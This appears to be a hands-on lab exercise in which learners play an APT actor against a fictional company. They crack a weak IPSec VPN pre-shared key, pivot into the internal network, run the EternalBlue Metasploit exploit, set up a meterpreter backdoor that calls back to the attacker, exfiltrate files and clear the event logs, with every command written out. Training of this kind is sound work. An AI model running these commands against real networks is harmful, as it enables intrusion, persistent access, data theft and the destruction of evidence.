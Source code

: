 # VPN Tunnel Pivot

Objective: Act as an APT actor (`APT-62`, "Shadow Wire") to discover, compromise, and leverage a misconfigured site-to-site VPN tunnel to gain initial access to a secured internal network. Establish persistence and exfiltrate data.

Scenario: [OpenHands International](entity.md) uses an IPSec VPN tunnel to connect its HQ to a remote branch office. The tunnel is established, but a weak pre-shared key (PSK) and permissive firewall rules within the tunnel create an opportunity for pivot and lateral movement.

## Phase 1: Reconnaissance & VPN Discovery

Goal: Discover the VPN gateway and identify the VPN technology and potential weaknesses.

Instructions:

1.  Access Your Foothold:
    *   SSH into your assigned Kali Linux attacker VM. This VM is on the simulated "internet".
    *   Command: `ssh root@<attacker_vm_ip>`
    *   Password: `[Provided by Lab Instructor]`

2.  Discover the VPN Endpoint:
    *   Perform a port scan against the OpenHands HQ network range provided by your instructor. Look for common VPN ports.
    *   Command: `nmap -sS -p 500,4500,1194,943,8443 <hq_network_range>`
    *   Finding: Which IP address has port `500/udp` open? This is the standard port for IKE (Internet Key Exchange), used by IPSec VPNs.
    *   VPN_GATEWAY_IP: `[DISCOVER THIS]`

3.  Fingerprint the VPN Service:
    *   Use a tool like `ike-scan` to interrogate the VPN gateway and discover its vendor and supported encryption methods.
    *   Command: `ike-scan -A -M <VPN_GATEWAY_IP>`
    *   Finding: What is the vendor ID (e.g., `Cisco`, `StrongSwan`) and what weak transformation sets (e.g., `3des-sha1-modp1024`) does it support?
    *   Vendor: `[DISCOVER THIS]`
    *   Weak Proposal: `[DISCOVER THIS]`

Checkpoint: You have identified the VPN concentrator and confirmed it supports weak cryptographic algorithms. Proceed to the next phase.

## Phase 2: VPN Weakness Exploitation

Goal: Crack the VPN pre-shared key to gain access to the tunnel.

Instructions:

1.  Perform a PSK Brute-Force Attack:
    *   The `ike-scan` tool can be used to perform a brute-force attack against the IKE handshake using a provided wordlist of common PSKs.
    *   Command: `ike-scan -A -M <VPN_GATEWAY_IP> --pskcrack --auth=3 --id=mygroup`
        *   *Note: The `--id` value might need to be discovered or is often set to a group name. Try common names like `vpn`, `group`, or the company name if this step fails.*
    *   This command will capture the IKE handshake hashes.

2.  Crack the Captured Hash:
    *   `ike-scan` will save the hash to a file (e.g., `pskkey.txt`). Use `psk-crack` with the provided wordlist to crack the key.
    *   Command: `psk-crack -d /usr/share/wordlists/rockyou.txt pskkey.txt`
    *   Finding: What is the cracked Pre-Shared Key?
    *   VPN_PSK: `[DISCOVER THIS]`

3.  Configure VPN Access:
    *   Your Kali VM has VPN client software pre-installed. Configure a new connection using the details you've gathered.
    *   Settings:
        *   Gateway: `<VPN_GATEWAY_IP>`
        *   Type: IPSec (IKEv1) with PSK
        *   Group/ID: `mygroup` (or the one you discovered)
        *   Secret: `<VPN_PSK>`
        *   Phase1 Algorithms: `3des-sha1-modp1024` (the weak one you found)
        *   Phase2 Algorithms: `aes128-sha1`
    *   Command to connect: `sudo systemctl start strongswan` or use the GUI network manager.

4.  Verify Connection:
    *   Check that you have received a new IP address on the `tun0` interface. This is your IP inside the VPN tunnel.
    *   Command: `ip addr show tun0`
    *   Your VPN IP: `[DISCOVER THIS]`

Checkpoint: You are now connected to the OpenHands internal network via the VPN tunnel. You have successfully bypassed the perimeter firewall.

## Phase 3: Internal Pivot & Lateral Movement

Goal: Explore the network you now have access to and find a high-value target.

Instructions:

1.  Discover the VPN Subnet:
    *   Your VPN IP is likely on a dedicated subnet for remote users (e.g., `10.10.20.0/24`). Discover what other networks are reachable.
    *   Command: `netdiscover -i tun0 -r <vpn_subnet>/24` (e.g., `-r 10.10.20.0/24`)

2.  Map Accessible Internal Networks:
    *   Check the routing table provided to your VPN adapter. You might have routes to other, more sensitive subnets.
    *   Command: `ip route show`
    *   Finding: What internal corporate subnet is listed in the routing table? (e.g., `192.168.100.0/24` via `10.10.20.1`).
    *   INTERNAL_NET: `[DISCOVER THIS]`

3.  Scan the Internal Network:
    *   Perform a targeted port scan on the `INTERNAL_NET` to find live hosts and services. Be stealthy.
    *   Command: `nmap -sn -T2 <INTERNAL_NET>`
    *   Finding: Identify the IP address of a server that responds. Note it as `TARGET_SERVER`.

4.  Enumerate the Target:
    *   Perform a detailed scan on the `TARGET_SERVER` to find potential entry points.
    *   Command: `nmap -sV -sC -O -p- <TARGET_SERVER>`
    *   Finding: What services are running? Note any that seem vulnerable (e.g., `SMB`, ` outdated HTTP`, `RDP`).
    *   Open Ports/Services: `[LIST THEM HERE]`

Checkpoint: You have mapped the internal network and identified a potential target server for further exploitation.

## Phase 4: Establishing a Foothold and Persistence

Goal: Exploit a service on the internal server to gain a shell and create a persistent backdoor.

Instructions:

1.  Exploit the Service:
    *   Based on your findings from the previous step, choose an exploit.
    *   Example: If you found SMB with a known vulnerability (e.g., EternalBlue), use `msfconsole` to launch the exploit.
    *   Metasploit Commands:
        ```bash
        msf6 > use exploit/windows/smb/ms17_010_eternalblue
        msf6 exploit(...) > set RHOSTS <TARGET_SERVER>
        msf6 exploit(...) > run
        ```
    *   Success: You should receive a `meterpreter` shell.

2.  Establish Persistence:
    *   Once you have a shell, create a persistent backdoor so you can re-enter the network even if the VPN connection drops.
    *   Meterpreter Command: `run persistence -U -i 60 -p 443 -r <YOUR_ATTACKER_VM_IP>`
    *   This creates a scheduled task that will call back to your Kali box every 60 seconds.

3.  Exfiltrate Simulated Data:
    *   Search the target server for files containing simulated sensitive data.
    *   Meterpreter Commands:
        ```bash
        search -f *password*.txt
        search -f *volunteer*.xlsx
        download C:\\Users\\Admin\\Documents\\dummy_data.xlsx
        ```
    *   Finding: What is the name of the file you exfiltrated?
    *   Filename: `[DISCOVER THIS]`

Checkpoint: You have compromised an internal server, established a persistent beacon, and successfully exfiltrated data.

## Phase 5: Covering Tracks (Optional Bonus)

Goal: Remove evidence of your initial VPN connection and internal activity.

Instructions:

1.  Disconnect the VPN: Cleanly disconnect your Kali VM from the IPSec VPN.
2.  Clear Logs on Target Server: From your Meterpreter session, attempt to clear the Windows Event Logs.
    *   Command: `run event_manager -c`
3.  Operate from Your Backdoor: Wait for your persistent agent to call back to your Kali machine. Now you have access without the VPN, which is much stealthier.

Final Report: Document all the `[DISCOVER THIS]` fields. Write a brief analysis on the critical misconfigurations that allowed this attack to succeed (e.g., weak PSK, permissive VPN routing, vulnerable internal services) and provide one mitigation strategy for each.
